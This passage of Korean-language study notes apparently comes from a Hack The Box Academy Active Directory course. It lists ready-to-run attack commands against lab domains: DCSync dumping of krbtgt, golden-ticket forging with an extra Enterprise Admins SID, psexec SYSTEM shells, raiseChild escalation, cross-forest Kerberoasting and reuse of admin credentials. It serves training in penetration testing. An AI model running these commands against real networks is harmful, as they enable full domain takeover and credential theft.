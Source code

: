 ```
### secretsdump.py로 DCSync 수행
```secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt```

### lookupsid.py를 사용하여 SID Brute Forcing 수행
```lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240```

### 도메인 SID 찾기
```lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"```

### 도메인 SID를 잡고 Enterprise Admin의 RID에 연결
```lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"```

### ticketer.py를 사용하여 골든 티켓 구성
```ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker```

### KRB5CCNAME 환경 변수 설정
```export KRB5CCNAME=hacker.ccache```

### Impacket의 psexec.py를 사용하여 SYSTEM shell 가져오기
```psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5```

### raiseChild.py로 공격 수행(자동화, 필요시 사용)
```raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm```

<br/><br/>
## 4. Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows

### Cross-Forest Kerberoasting

#### Get-DomainUser를 사용하여 연관된 SPN에 대한 계정 열거
```Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName```

#### mssqlsvc 계정 열거
```Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof```

#### /domain 플래그를 사용하여 Rubeus로 Kerberoasting 공격 수행
```.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap```

### 관리자 비밀번호 재사용 및 그룹 멤버십

#### Get-DomainForeignGroupMember 사용하여 도메인에 속하지 않는 사용자가 있는 그룹 열거
```Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL```

#### Enter-PSSession을 사용하여 DC03에 액세스하기
```Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator```

<br/><br/>
## 5. Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

### Cross-Forest Kerberoasting

#### GetUserSPNs.py 사용
```GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley```

#### -request 플래그 사용
```GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley```

### Bloodhound-python으로 Foreign Group Membership 헌팅

#### /etc/resolv.conf에 INLANEFREIGHT.LOCAL 정보 추가
```
cat /etc/resolv.conf
